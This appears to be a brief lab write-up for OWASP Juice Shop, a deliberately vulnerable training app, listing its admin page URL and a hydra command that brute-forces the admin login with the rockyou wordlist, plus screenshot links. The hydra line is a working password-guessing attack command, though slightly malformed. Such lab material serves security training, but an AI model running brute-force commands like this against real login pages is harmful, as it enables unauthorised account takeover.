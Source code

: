 1- The admin path (https://juiceshop.herokuapp.com/#/administration)

![1](https://github.com/user-attachments/assets/f91dcc9a-6021-4f38-900f-5622a5d09f1e)

2-(hydra -l admin@juice-sh.op -P /usr/share/wordlists/rockyou.txt juice-shop.herokuapp.com httppost-form
"/rest/user/login:email=^USER^&password=^PASS^:F=Invalid email or password" -V -I -F


![2](https://github.com/user-attachments/assets/baf1599e-4d43-477c-b2bb-3893bbdaef7b)
